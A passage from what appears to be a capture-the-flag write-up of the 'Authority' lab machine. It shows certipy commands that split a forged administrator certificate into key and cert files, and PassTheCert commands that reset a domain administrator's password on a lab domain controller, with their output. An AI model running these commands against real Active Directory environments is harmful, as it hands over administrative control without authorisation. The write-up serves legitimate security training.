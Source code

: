 We are unable to request for a TGT using this certificate however.&#x20;

```
$ certipy auth -pfx 'administrator.pfx' -username administrator -domain authority.htb -dc-ip 10.129.9.12 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

This means that Rubeus would fail as well. In this case, let's try to Pass the Certificate to reset the administrator's password.&#x20;

{% embed url="https://github.com/AlmondOffSec/PassTheCert" %}

First, generate the key and cert files:

```
$ certipy cert -pfx administrator.pfx -nocert -out admin.key
$ certipy cert -pfx administrator.pfx -nokey -out admin.crt
```

Then, reset the administrator password:

```
$ python3 passthecert.py -action modify_user -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.129.8.242 -target administrator -new-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully changed administrator password to: R08Fv3VKaSyyI1tJ1FYi1mAEGklJvWFy
```

<figure><img src="../../.gitbook/assets/image (1741).png" alt=""><figcaption></figcaption></figure>

Rooted!
